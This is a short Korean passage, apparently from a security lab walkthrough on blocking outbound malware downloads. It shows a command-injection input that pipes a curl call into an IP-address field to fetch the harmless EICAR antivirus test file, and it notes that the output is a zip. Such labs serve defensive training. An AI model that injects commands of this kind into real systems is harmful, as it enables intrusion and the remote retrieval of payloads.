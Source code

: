     
    이번에는 악성코드를 아웃바운드로 다운로드 받는 것을 차단하라고 하네요.
    
    ![](작업3\2020-12-04_14-08-10.png)
    
    아래와 '시작하기'에서 알려준 공격 구문을 Injection하면 eicar 테스트 파일이 다운로드 됩니다.  
    * EICAR 테스트 파일은 Anti-Virus SW를 테스트하기 위해 제작된 파일 악성파일은 아니지만 기본적으로 백신 프로그램에서 악성으로 판단합니다.

        ```bash
        4.4.2.2 | curl -k https://secure.eicar.org/eicarcom2.zip
        ```
    
    PK로 시작하는 파일 내용이 보이는 것으로 zip파일이라는 것을 알 수 있습니다.  
    (zip파일은 매직넘버가 ASCII로는 PK입니다.)

    ![](작업3\2020-12-04_14-09-35.png)
